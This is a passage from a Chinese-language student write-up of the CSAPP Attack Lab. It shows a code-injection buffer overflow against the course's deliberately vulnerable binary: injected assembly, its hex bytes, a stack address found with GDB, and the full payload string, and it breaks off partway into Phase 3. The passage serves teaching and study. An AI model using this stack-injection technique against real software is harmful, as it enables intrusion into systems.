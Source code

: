 根据Writeup的代码，想要成功，不仅是要把返回值设置成`touch2`的地址，还要把第一个参数设置成`cookie`，也就是我们这里的`0x59b997fa`，其中第一个参数放在`%rdi`寄存器中。

通过之前的反汇编代码，查到`touch2()`的地址为`0x00000000004017ec`。

```assembly
movq	$0x59b997fa, %rdi
pushq	$0x4017ec
retq
```

这里用`ret`，通过弹出之前将`touch2`函数地址压栈的结果，将`touch2`的地址传给了PC。

将上面这三条代码保存，让 gcc 生成汇编。

![image-20220608211448135](./CSAPP  Lab Report2.assets/image-20220608211448135.png)

汇编代码序列是

```
48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3
```

现在我们要将这段程序放在栈的特定位置，冒充数据，然后在之前的`touch1`位置改成这段程序的地址。这里我们选择在栈的开始位置注入这段代码，现在的任务是找到`%rsp`在哪。

借助 GDB 来找：

![image-20220608211822512](./CSAPP  Lab Report2.assets/image-20220608211822512.png)

所以`%rsp`在`0x5561d668`，构造字符串：【注入代码】-【无用字符】-【注入代码地址】

```
48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 68 D6 61 55
```

保存为`level2.txt`，做测试。

![image-20220608212339377](./CSAPP  Lab Report2.assets/image-20220608212339377.png)

#### Level 3（Phase 3）

这一部分和前面差不多，只不过传入的参数从`int`变成了`char*`也就是字符串。

Writeup中说，提供给我们`hexmatch`函数进行判断，所以我们只需要传入一个字符串`59b997fa`即可（注意结尾的`\0`）。

并且，根据提示

> When functions `hexmatch` and `strncmp` are called, they push data onto the stack, overwriting portions of memory that held the buffer used by `getbuf`. As a result, you will need to be careful where you place the string representation of your cookie.

这说明`hexmatch`调用时可能会覆盖`getbuf`栈帧的数据，所以需要小心对待字符串位置。

再看看给我们的字符串地址：

```C
char *s = cbuf + random() % 100;
```

说明`s`的位置是随机的，保险起见，这里字符串我们选择放在`test`函数的栈帧中。用 GDB 找相应的 `%rsp` 位置：
